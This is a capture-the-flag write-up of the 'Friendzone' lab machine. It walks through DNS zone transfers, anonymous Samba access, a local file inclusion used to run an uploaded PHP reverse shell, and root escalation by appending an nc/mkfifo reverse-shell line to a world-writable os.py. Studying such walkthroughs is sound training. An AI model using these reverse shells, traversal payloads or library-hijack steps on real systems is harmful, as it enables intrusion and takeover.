

## Overview

Friendzone is an Ubuntu box running Apache that hosts numerous websites. The enumeration phase was challenging because of the amount of data to be sifted through - good note taking was required to keep track of everything. There were numerous sub domains, quite a few which pointed back to the main site while others pointed to pages that were just trolls or nothing at all. I found some credentials by accessing a samba share anonymously which led to an administration page that was vulnerable to a local file inclusion (LFI) vulnerability. Combining this with the write permissions on a different samba share, I was able to upload a php file and call it by leveraging LFI to get the initial foothold. Looking around in the /var/www/ folder showed a config file that had credentials for the user 'friend'. Because the password was reused for the user account, I was able escalate privileges by logging in as user friend via ssh. From there some additional enumeration showed weak file permissions on a python file called os.py and file called reporter.py that was being run as root. I appended some commands to os.py that when run would create a reverse shell. Because reporter.py contained the line "import os" which imports os.py, I was able to get a reverse shell when the root account ran the reporter.py file.

## Enumeration

**Software**

* Ubuntu 18.04.1 LTS
* Apache 2.4.29
* vsftpd 3.0.3
* OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)

**Port Scan**
```
nmap -vv -Pn -sT -A -p- -oN /mnt/data/boxes/friendzone/_full_tcp_nmap.txt
```

* 21/tcp - ftp
* 22/tcp - ssh
* 53/tcp - dns
* 80/tcp - http
* 139/tcp - netbios
* 443/tcp - https
* 445/tcp - netbios


**Directory/File Brute Force**

***10.10.10.123 / IP***
```
gobuster dir -u http://10.10.10.123 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt -t 15
```
* /index.html - have you ever been friendzoned? (main site)
* /wordpress - empty directory listing
* /robots.txt - "seriously !?"

```
gobuster dir -k -u https://10.10.10.123 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt -t 15 
```

_\- no results_
  
***friendzone.red***

```
gobuster dir -k -u https://friendzone.red -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt -t 15 
```

* /index.html - animated gif of a guy on a treadmill. Comment "Escaping The Friendzone"
* /admin - empty directory listing
* /js - directory listing with /js. viewing source of js

```
<p>Testing some functions !</p><p>I'am trying not to break things !</p>NndtemQ2R1YzVzE1ODg5NjU1OTkzQ0F1eUFuSVJ4<!-- dont stare too much , you will be smashed ! , it's all about times and zones ! -->
```

_\- http - same as main site_


***administrator1.friendzone.red***

```
gobuster dir -k -u https://administrator1.friendzone.red -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt -t 15
```

* index.html
* /images - contained directory listing with two files a.jpg: a picture of nelson saying "HA HA" and b.jpg picture of a random woman with caption "got it!"
* /login.php
* /dashboard.php
* /timestamp.php


_\- http - same as main site_

***hr.friendzone.red***

  _\- http - same as main site_

  _\- https - 404 not found_

***uploads.friendzone.red***

```
gobuster dir -k -u https://uploads.friendzone.red -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt -t 15
```

* /index.html - Upload form
* /files - blank page
* /upload.php - Text: "WHAT ARE YOU TRYING TO DO HOOOOOOMAN !"

  _\- http - same as main site_

***vpn.friendzoneportal.red***

  _\- http - same as main site_

  _\- https - 404 not found_

***friendzoneportal.red***

```
gobuster dir -k -u https://friendzoneportal.red -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt -t 15 
```

* /index.html - animated gif of Michael Jackson. Comment "Good"

  _\- http - same as main site_

***admin.friendzoneportal.red***

```
gobuster dir -k -u https://admin.friendzoneportal.red -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt -t 15
```

* /index.html - username and password form
* /login.php - Text: "ZZzzZzZ"


_\- http, redirects to main site_

***files.friendzoneportal.red***

  _\- http - same as main site_

  _\- https - 404 not found_

**DNS**

```
dig axfr friendzone.red @10.10.10.123
```
* friendzone.red
* administrator1.friendzone.red
* hr.friendzone.red
* uploads.friendzone.red

```
dig axfr friendzoneportal.red @10.10.10.123
```

* friendzoneportal.red
* admin.friendzoneportal.red 
* files.friendzoneportal.red
* imports.friendzoneportal.red
* vpn.friendzoneportal.red

**Samba**

```
smbclient -L //10.10.10.123 -N
```

* print$
* Files
* general
* Development
* IPC$

```
smbmap -H 10.10.10.123
```

```
[+] Guest session       IP: 10.10.10.123:445    Name: friendzone.red                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        Files                                                   NO ACCESS       FriendZone Samba Server Files /etc/Files
        general                                                 READ ONLY       FriendZone Samba Server Files
        Development                                             READ, WRITE     FriendZone Samba Server Files
        IPC$                                                    NO ACCESS       IPC Service (FriendZone server (Samba, Ubuntu))

```

## Steps (user)

I started off by browsing to http://10.10.10.123. There's not much to the website but I did take note of the domain name used in the contact information (friendzoneportal.red). 


Next I went to https://10.10.10.123 and received an error message that the requested URL / was not found on this server. I found another domain called friendzone.red while viewing the SSL certificate. 


Since I know the server is listening on port 53 and I now know a couple domains, I attempted a zone transfer with dig on the friendzoneportal.red and friendzone.red domains and found quite a few records. I updated my /etc/hosts file accordingly.

```
10.10.10.123    friendzone.red
10.10.10.123    administrator1.friendzone.red
10.10.10.123    hr.friendzone.red
10.10.10.123    uploads.friendzone.red

10.10.10.123    friendzoneportal.red
10.10.10.123    admin.friendzoneportal.red
10.10.10.123    files.friendzoneportal.red
10.10.10.123    imports.friendzoneportal.red
10.10.10.123    vpn.friendzoneportal.red

```

I then kicked off gobuster scans, scanning http and https for all sub-domains. Due to the number of results I decided to let the scans finish and then go through each and take notes first before really diving into anything.

> The virtual host for port 80 must have been configured with a wildcard for all sub-domains because they all brought up the main "have you ever been friendzoned?" page. The https scan results were more varied.

While I was waiting for the gobuster scans to finish I tried anonymously accessing the "Files" share but access was denied. I tried the same with "Development" and was successful but no files were visable. Finally, I was able to access "general" though and found a file called creds.txt

```
smbclient //10.10.10.123/general
get creds.txt
```

```
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

Creds for the "admin" seemed to be in reference to the admin or administrator1 subdomain that I found eralier. First I browsed to https://admin.friendzoneportal.red/ but was met with the message: "Admin page is not developed yet !!! check for another one" so I tried the credentials on the other "admin" page.


I browsed to https://administrator1.friendzone.red and tried the crendials there and it let me in. A message said to visit /dashboard.php.


Browsing to /dashboard.php showed the message:


```
Smart photo script for friendzone corp !

* Note : we are dealing with a beginner php developer and the application is not tested yet !

image_name param is missed !

please enter it to show the image

default is image_id=a.jpg&pagename=timestamp
```

I initially thought that this page allowed the viewing of images by supplying an image name and a timestamp.

I tried the default parameters as shown and received the nelson image and the message " Something went worng ! , the script include wrong param !" It also listed the timestamp in epoch at the bottom of the page. 

```
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=timestamp
```


I went to uploads.friendzone.red and tried uploading various file types (jpg,png,php) successfully but I was not able to view them in /files or on dashboard.php. I decided to try another approach...

Reviewing the gobuster output again I noticed that along with dashboard.php there is also a page called timestamp.php. Browsing directly to this page showed the timestamp in epoch, like what was showing on dashboard.php. I determined that the parameter being passed to pagename was another php page (without the .php).


I'm also able to view other files such as login.php by typing in the pagename without the .php.



I'm also able to view php files in other directories which confirms that this site is vulnerable to LFI.


I had read/write access to the "Development" share as shown by the output of the smbmap command. That meant I could write a reverse shell to that share and access it via the pagename parameter. 

I copied a php reverse shell file into my working directed, updated the port and IP, and copied it to the Development share.

```
cp ~/tools/webshells/php/php-reverse-shell.php rshell.php
vim rshell.php # add port and ip
smbclient //10.10.10.123/Development
put rshell.php
```

I started a netcat listener on port 4200
```
netcat -lvnp 4200
```

Also in the smbmap output; The comment shown for the "Files" folder was "FriendZone Samba Server Files /etc/Files". After putting two and two together I guessed that the Development share was probably located similarly at /etc/Development.

```
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=../../../../../../etc/Development/rshell
```

Once the reverse shell was accessed at /etc/Development via the pagename parameter, I was in. 


## Steps (root/system)

Enumerating the file system I came across a file called mysql_data.conf with the username and password of friend:Agpyu12!0.213$


I attempted to log in with these credentials via ssh and was successful.


I did some additional enumeration with a utility called LinEnum.

> [LinEnum](https://github.com/rebootuser/LinEnum) automates linux enumeration by checking system information, processes, suid/guid binaries, folder/file permissions, and many other things.

I copied LinEnum to my working directory and started a python http server
```
cp ~/tools/LinEnum/LinEnum.sh le.sh
python3 -m http.server 80
```

On the target I switched to /dev/shm and used wget to copy le.sh to the local file system. I then made it executable and started a scan with the -t parameter (for thorough).

```
cd /dev/shm
wget http://10.10.14.22/le.sh
chmod +x
./le.sh -t
```
I came across a couple interesting things. The first was a python script that was being run by root


And the second was a world-writable file in the /usr/lib/python2.7 directory called os.py.


Being familiar with python I recognized this as a [module](https://docs.python.org/3/library/os.html) which allows interaction with the operating system. Taking a look at /opt/server_admin/reporter.py shows that it imports os.py.

```
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer

```

Since I have write access to this file, I added the following line to the end of os.py to execute an os command to create a reverse shell to my machine.

```
vi /usr/lib/python2.7/os.py
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.22 4200 >/tmp/f")
```
When the root account ran reporter.py it imported os.py and executed the command to create a reverse shell and as a result called back to my machine to give me a shell as root.


